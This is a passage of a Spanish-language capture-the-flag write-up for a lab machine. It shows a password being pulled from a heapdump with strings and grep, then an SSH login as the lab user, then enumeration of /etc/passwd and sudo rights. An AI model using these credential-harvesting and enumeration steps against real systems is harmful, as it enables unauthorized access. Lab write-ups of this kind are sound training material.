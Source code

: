 Una forma alternativa es simplemente usar `strings` y con la herramienta `grep` buscar lo que nos interesa, en este caso contraseñas, donde debemos buscar de la siguiente manera

~~~ bash
strings heapdump | grep -i 'password='

proxyPassword='
{password=0sc@r190_S0l!dP@sswd, user=oscar190}!
update users set email=?,first_name=?,last_name=?,password=? where id=?!
~~~


## Shell as `oscar190`

Con las credenciales que obtuvimos en `heapdump`, podremos iniciar sesión por SSH como el usuario `oscar190`

~~~ bash
ssh oscar190@10.10.11.66                                           

Last login: Sat Aug 30 17:41:00 2025 from 10.10.14.132
oscar190@eureka:~$
~~~


## System Enumeration

Comenzaremos un proceso de enumeración manual del sistema que nos permita elevar detectar vías potenciales de escalada de privilegios

### Users

Comprobaremos el archivo `/etc/passwd` para ver otros usuarios del sistema. Notaremos que existe el usuario `miranda-wise`

~~~ bash
oscar190@eureka:~$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
oscar190:x:1000:1001:,,,:/home/oscar190:/bin/bash
miranda-wise:x:1001:1002:,,,:/home/miranda-wise:/bin/bash
~~~

### (Posible) Sudoers Privileges

Una de las técnicas más comunes consiste en enumerar privilegios a nivel de `/etc/sudoers`

~~~ bash
oscar190@eureka:~$ sudo -l
[sudo] password for oscar190: 
Sorry, user oscar190 may not run sudo on localhost.
~~~

### Interesting Files

Vemos archivos en la ruta `/opt`, donde existe un script de `bash` al que tenemos acceso. Sin embargo, lo utilizaremos más adelante
